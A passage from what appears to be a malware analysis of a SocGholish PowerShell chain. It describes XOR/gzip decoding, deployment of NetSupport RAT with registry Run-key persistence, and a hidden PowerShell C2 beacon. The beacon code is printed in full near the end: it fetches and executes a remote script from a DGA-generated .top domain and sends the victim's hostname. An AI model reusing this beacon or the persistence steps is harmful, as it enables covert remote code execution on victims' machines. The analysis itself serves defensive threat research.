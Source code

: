 The decode function converts the strings from base64, and then loops through each element of the string and XORs them with an index of a hardcoded key.

Once the string has been XOR'd, it is decompressed using Gzip and returned.

The first base64 string is passed to the decode function and returned to a variable I've named `$zip_file` - you'll see why in the next section. 

The second base64 string is decoded and then piped to IEX - more PowerShell to explore.

### Nested PowerShell
The nested PowerShell has two primary purposes, which are seemingly unrelated to each other. 

One of these purposes is to extract and deploy the NetSupport RAT, which is commonly observed being deployed by SocGholish infrastructure. The specific PowerShell behavior has also been [documented](https://blog.cyble.com/2022/09/21/netsupport-rat-distributed-via-socgholish/) by other researchers in the past.

The second purpose is to deploy a separate PowerShell C2 beacon. It is interesting to see two payloads being deployed by the same C2 server, although SocGholish is known to be an initial access broker.

### Nested PowerShell: NetSupport RAT
The first primary purpose of the nested PowerShell is to extract the contents of the `$zip_file` variable using `[IO.Compression.Zipfile]::ExtractToDirectory`.

This zip file will be saved to the user's `$env:appdata` folder under a randomly named directory. 
{{< figure src="images/netsupport_rat.png" alt="netsupport_rat" position="center" >}}
This zip file contains the NetSupport RAT binary as well as its dependencies. 

After the NetSupport RAT folder has been extracted, the `client32.exe` file is renamed to `whost.exe`.

Persistence is established by adding the registry key "ExpirienceHost" under `HKCU:\Software\Microsoft\Windows\CurrentVersion\Run`, with the value set to the full path of the NetSupport RAT binary.

Once persistence is established, `Invoke-WmiMethod` is used to execute NetSupport RAT.

NetSupport RAT has been around for quite a while, and for those curious to learn more about it, good writeups can be easily found via a web search.

### Nested PowerShell: PowerShell Beacon
This is where things, in my opinion, get more interesting.

The second purpose of the nested PowerShell is to deploy a PowerShell C2 beacon.
```PowerShell
start-process powershell -args '
	new-alias rzs $('invoke-expression') ;
	$rand_int = New-Object ($('System.Random') )([int]((((Get-Date).DayOfYear+3) / 7) +2024)*1562);

	for ($i = 0; $i -lt 15; $i++) {
		$rand_str += ($('abcdefghijklmn') )[$rand_int.Next(0, 14)];
	}
	$global:block=(New-Object $('System.Net.WebClient') ).($('DownloadString') )($('http://') +$rand_str+$(.top/523/sdfzw.php?i=) +$(hostname));
	rzs $global:block'
-WindowStyle hidden
```
As shown above, a request will be made to a DGA generated `.top` domain, all with the same hardcoded path of `/<group_id>/sdfzw.php`, and the victim hostname passed as a parameter in the format `?i=<hostname>`.
